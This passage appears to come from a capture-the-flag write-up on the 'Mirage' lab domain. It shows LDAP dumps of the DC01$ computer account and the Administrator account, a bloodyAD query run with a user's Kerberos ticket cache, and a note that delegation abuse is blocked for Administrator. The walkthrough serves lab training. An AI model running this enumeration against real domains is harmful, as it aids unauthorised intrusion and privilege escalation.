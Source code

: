    objectClass: top; person; organizationalPerson; user; computer
    objectGUID: cf5a05d3-5ca4-42f6-b00b-e352e61e11e5
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-1000
    operatingSystem: Windows Server 2022 Standard
    operatingSystemVersion: 10.0 (20348)
    primaryGroupID: 516
    pwdLastSet: 2025-06-19 10:50:21.295776+00:00
    rIDSetReferences: CN=RID Set,CN=DC01,OU=Domain Controllers,DC=mirage,DC=htb
    sAMAccountName: DC01$
    sAMAccountType: 805306369
    serverReferenceBL: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=mirage,DC=htb
    servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/dc01.mirage.htb; ldap/dc01.mirage.htb/ForestDnsZones.mirage.htb; ldap/dc01.mirage.htb/DomainDnsZones.mirage.htb; DNS/dc01.mirage.htb; GC/dc01.mirage.htb/mirage.htb; RestrictedKrbHost/dc01.mirage.htb; RestrictedKrbHost/DC01; RPC/9e3773da-cab7-4575-9671-1aa5524ba345._msdcs.mirage.htb; HOST/DC01/MIRAGE; HOST/dc01.mirage.htb/MIRAGE; HOST/DC01; HOST/dc01.mirage.htb; HOST/dc01.mirage.htb/mirage.htb; E3514235-4B06-11D1-AB04-00C04FC2DCD2/9e3773da-cab7-4575-9671-1aa5524ba345/mirage.htb; ldap/DC01/MIRAGE; ldap/9e3773da-cab7-4575-9671-1aa5524ba345._msdcs.mirage.htb; ldap/dc01.mirage.htb/MIRAGE; ldap/DC01; ldap/dc01.mirage.htb; ldap/dc01.mirage.htb/mirage.htb
    uSNChanged: 160009
    uSNCreated: 12293
    userAccountControl: SERVER_TRUST_ACCOUNT; TRUSTED_FOR_DELEGATION
    userCertificate: MIIF1zCCBL+gAwIBAgITSQAAAAKdYYwFRv00yAAAAAAAAjAN<snip>3sg49bCk=
    whenChanged: 2025-07-23 05:22:30+00:00
    whenCreated: 2025-05-01 07:42:23+00:00


Unfortunately we cannot get the Administrator account with this delegation as the bits for NOT_DELEGATED are set on the user directly.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object Administrator
```

    
    distinguishedName: CN=Administrator,CN=Users,DC=mirage,DC=htb
    accountExpires: 1601-01-01 00:00:00+00:00
    adminCount: 1
    badPasswordTime: 2025-07-14 16:17:45.326444+00:00
    badPwdCount: 0
    cn: Administrator
    codePage: 0
    countryCode: 0
    dSCorePropagationData: 2025-05-01 08:09:46+00:00
    description: Built-in account for administering the computer/domain
    instanceType: 4
    isCriticalSystemObject: True
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-07-23 06:44:22.531092+00:00
    lastLogonTimestamp: 2025-07-23 06:44:13.741444+00:00
    logonCount: 3332
    logonHours: ////////////////////////////
    memberOf: CN=Group Policy Creator Owners,CN=Users,DC=mirage,DC=htb; CN=Domain Admins,CN=Users,DC=mirage,DC=htb; CN=Enterprise Admins,CN=Users,DC=mirage,DC=htb; CN=Schema Admins,CN=Users,DC=mirage,DC=htb; CN=Administrators,CN=Builtin,DC=mirage,DC=htb
    msDS-SupportedEncryptionTypes: 0
    nTSecurityDescriptor: O:S-1-5-21-2127163471-38<snip>)(A;;0xf01ff;;;S-1-5-18)
    name: Administrator
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user
    objectGUID: 047a19a0-8341-4903-b233-8860ff560eef
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-500
    primaryGroupID: 513
    pwdLastSet: 2025-06-23 21:18:18.819012+00:00